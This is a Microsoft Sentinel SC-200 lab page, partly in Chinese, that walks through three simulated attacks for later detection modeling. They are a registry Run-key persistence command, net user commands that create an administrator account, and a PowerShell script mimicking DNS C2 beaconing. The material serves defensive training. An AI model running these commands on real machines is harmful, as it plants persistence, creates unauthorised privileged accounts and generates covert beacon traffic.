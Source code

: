```yaml
---
lab:
  title: 练习 5 - 了解检测建模
  module: Module 7 - Create detections and perform investigations using Microsoft Sentinel
---
```


# <a name="module-7---lab-1---exercise-5---understand-detection-modeling"></a>模块 7 - 实验室 1 - 练习 5 - 了解检测建模

![实验室概述。](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex4.png)
### <a name="task-1-understand-the-attacks"></a>任务 1：了解攻击

><bpt id="p1">**</bpt>Important: You will perform no actions in this exercise.<ept id="p1">**</ept>  These instructions are only an explanation of the attacks you will perform in the next exercise. Please carefully read this page.

攻击模式基于开源项目： https://github.com/redcanaryco/atomic-red-team


#### <a name="attack-1---persistence-with-registry-key-add"></a>攻击 1 - 通过注册表项添加实现的持久性攻击

Attackers will add a program in the Run Registry key. This achieves persistence by making the program run every time the user logs on.

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### <a name="attack-2---user-add-and-elevate-privilege"></a>攻击 2 - 用户添加和特权提升

Attackers will add new users and elevate the new user to the Administrators group. This enables the attacker to logon with a different account that is privileged.

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### <a name="attack-3---dns--c2"></a>攻击 3 - DNS / C2 

Attacker will send a large volume of DNS queries to a command and control (C2) server. The intent is to trigger threshold-based detection on the number of DNS queries either from a single source system or to a single target domain.

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```


### <a name="task-2-understand-detection-modeling"></a>任务 2：了解检测建模

本实验室中使用的攻击检测配置循环代表所有数据源，虽然你仅专注于两个特定数据源。

To build a detection, you first start with building a KQL statement. Since you will attack a host, you will have representative data to start building the KQL statement.


有 KQL 语句后，即可创建分析规则。

触发规则并创建警报和事件后，调查以确定你是否提供了可帮助安全运营分析师进行调查的字段。

接下来，你将对分析规则进行其他更改。

>**注意：** 为了方便演示实验室，某些警报触发的时间期限较短。

## <a name="proceed-to-exercise-6"></a>继续完成练习 6
